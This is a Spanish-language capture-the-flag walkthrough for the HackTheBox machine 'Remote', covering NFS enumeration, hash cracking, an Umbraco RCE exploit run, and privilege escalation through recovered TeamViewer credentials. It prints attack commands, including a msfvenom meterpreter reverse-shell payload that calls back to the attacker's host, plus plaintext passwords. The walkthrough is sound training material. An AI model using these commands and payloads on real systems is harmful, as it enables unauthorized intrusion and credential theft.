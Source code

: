 ```yaml
---
layout: default
---
```

![image](../../Imágenes%20Máquinas/Remote.jpg)


# REMOTE [HACKTHEBOX] / Easy
### (Anonymous FTP, Wfuzz enumeration, mounts, hash cracking, Umbraco Remote Code Execution (RCE), Metasploit, Impacket, TeamViewer enumeration, Evil-winrm)

#### - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - ´

# NMAP Scan

Empezaremos haciendo el nmap de siempre:

```bash
nmap -p- --open -sCV -sS -n -Pn -vvv 10.10.10.180 -oN escaneo_nmap
```

Y nos encontrará un montón de puertos abiertos, vemos 2 que nos interesan a primera vista.

![image](../zimages/Pasted_image_20231203203247.png)

# Enumeration / User Flag

Si probamos a entrar en ftp como Anonymous no nos encuentra nada dentro de ftp:

![image](../zimages/Pasted_image_20231203203401.png)

Vamos a entrar en el puerto 80 (la web), inspeccionamos un poco pero no vemos nada interesante, vamos a hacer un wfuzz para encontrar subdirectorios:

```bash
wfuzz -c --hc=404 -t 200 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u 'http://10.10.10.180/FUZZ'
```

Con estos parámetros nos encuentra un montón de subdirectorios, pero si inspeccionamos un poco vemos que nos aparece uno que se llama "install", que si nos metemos desde la web nos hace un redirect a esta página:

![image](../zimages/Pasted_image_20231203203911.png)

Una vez en esta página vemos que hay un panel de login, pero no parece que haya forma de entrar de momento. Si **volvemos sobre nuestros pasos** y nos vamos al escaneo de nmap que hicimos antes nos damos cuenta que el siguiente puerto de nfs está abierto:

![image](../zimages/Pasted_image_20231203204430.png)

En este puerto se están emitiendo una ubicación por la red (una montura), con el comando 

```bash
showmount -e "10.10.10.180"
```

podemos ver las monturas que está emitiendo esa ip:

![image](../zimages/Pasted_image_20231203204727.png)

Aunque también podemos hacerlo con nmap mediante el comando

```bash
nmap -p 111 --script=nfs-showmount "10.10.10.180"
```

![image](../zimages/Pasted_image_20231203204842.png)

Una vez en este punto, podemos montar en local esa montura con el comando

```bash
mount -t nfs 10.10.10.180:/site_backups /mnt/
```

![image](../zimages/Pasted_image_20231203205218.png)

Si vamos al directorio App_Data vemos que hay un archivo .sdf llamado *Umbraco.sdf*, donde vienen datos en binario. Hay mucha información, así que vamos a poner el comando

```bash
cat Umbraco.sdf | head
```

para que nos ponga en pantalla solo las primeras líneas de este archivo, en las que vemos un hash de la contraseña de admin:

![image](../zimages/Pasted_image_20231203205630.png)

Si nos vamos a la web de https://crackstation.net la crackeamos fácil:

![image](../zimages/Pasted_image_20231203205736.png)
También tenemos el usuario de la web del admin, el login donde pedía un correo:

![image](../zimages/Pasted_image_20231203205810.png)

Si nos vamos a la web y probamos con estas credenciales entramos a la web, que si nos vamos a la esquina de arriba a la izquierda, donde nuestro usuario admin, tendríamos la versión de *Umbraco*:

![image](../zimages/Pasted_image_20231203210018.png)

Si buscamos un exploit por GitHub, nos encontramos con la web https://github.com/Jonoans/Umbraco-RCE/, donde hay que clonar el repositorio. Una vez clonado e instalados los requirements, ejecutamos el ejecutable .py (exploit.py) de la siguiente manera

```bash
python3 exploit.py -u admin@htb.local -p baconandcheese -w http://10.10.10.180 -i 10.10.14.20
```

Una vez puesto este comando, nos da una shell directamente:

![image](../zimages/Pasted_image_20231203213041.png)

El problema es que si probamos a poner comandos básicos no funciona bien. 
Lo primero que haremos es irnos a un directorio donde tengamos más permisos, como por ejemplo *temp*:

```powershell
cd C:\windows\temp
```

Una vez aquí, nos vamos a compartir un archivo malicioso hecho mediante msfvenom para poder conseguir una shell mejor. Vamos a crear el archivo con el siguiente comando:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.20 LPORT=5555 -f exe -o  virus.exe
```

Mediante este comando estamos creando un archivo malicioso .exe, al que le estamos metiendo un payload de una meterpreter de windows, especificando el puerto y nuestra ip. Una vez creado, lo vamos a compartir con la máquina víctima mediante impacket. Con el siguiente comando crearemos un recurso compartido:

```bash
impacket-smbserver samucrow $(pwd) -smb2support
```

Esto básicamente es como hacer un 

```python
python3 -m http.server 80
```

pero para windows funciona mejor impacket.

Una vez iniciado el servidor para compartir archivos, nos vamos a copiar el .exe malicioso a la máquina víctima de la siguiente manera:

```powershell
copy \\10.10.14.20\samucrow\virus.exe virus.exe
```

Una vez tenemos el virus dentro del sistema víctima, nos vamos a metasploit usando msfconsole para usar multi/handler:

![image](../zimages/Pasted_image_20231203215628.png)

con el comando

```msfconsole
set PAYLOAD windows/meterpreter/reverse_tcp
```

vamos a definir el mismo payload que pusimos en el .exe que copiamos en la máquina víctima para conseguir una meterpreter. Vamos a poner los datos que nos piden de nuestra ip, tanto en el payload como en el multi/handler, y vamos a poner también el puerto 5555 en ambos, que es el que especificamos anteriormente en el payload también:

![image](../zimages/Pasted_image_20231203220118.png)

ponemos el comando run y ejecutamos el virus.exe en la máquina víctima poniendo `./virus.exe`, lo que nos dará una meterpreter:

![image](../zimages/Pasted_image_20231203220355.png)

Una vez en la meterpreter, ponemos `shell` y nos dará una shell de windows:

![image](../zimages/Pasted_image_20231203221312.png)

ahora iremos a C:\Users\Public\ para ver la flag de user.

# PRIVESC / Root Flag

Ahora si nos vamos a la ruta "*C:\Program Files (x86)*", vemos que esta máquina tiene *TeamViewer*, por lo que vamos a usar un módulo de metasploit que nos permite enumerar este programa.
Pondremos el comando `background` en la meterpreter (primero hay que hacer `exit`), ahora vamos a buscar lo siguiente: 

```msfconsole
search teamviewer
```

![image](../zimages/Pasted_image_20231203223006.png)

elegimos al opción "1" y si ponemos `show options` vemos que nos pide un SESSION, por lo que listamos las sesiones activas con `session -l`:

![image](../zimages/Pasted_image_20231203223209.png)

elegimos la opción "1" y ponemos `run` y nos encontrará la contraseña de TeamViewer:

![image](../zimages/Pasted_image_20231203223318.png)

Para deducir de que usuario es esta contraseña, vamos otra vez a la shell de meterpreter con `session -i 1` y vamos a la ruta "*C:\users*", donde veremos  que solo existe el usuario **Administrador**.

Ahora con `evil-winrm` vamos a entrar en la máquina como Administrador:

```bash
evil-winrm -i 10.10.10.180 -u 'Administrator' -p '!R3m0te!'
```

Ahora nos iríamos al escritorio del Administrador y tendremos la flag de root.

# ./ROOTED
